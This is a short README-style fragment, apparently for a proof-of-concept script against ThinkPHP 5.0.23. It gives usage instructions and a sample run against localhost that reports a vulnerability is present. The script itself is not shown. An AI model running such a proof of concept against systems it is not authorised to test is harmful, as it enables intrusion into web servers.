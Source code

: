 # poc
#thinkphp5.0.23
#useage
python3.10 thinkphp5.0.23.py url
(Scripy)  ✘ mac@mac~python3.10 thinkphp5.0.23.py http://localhost:8080 
http://localhost:8080:存在漏洞

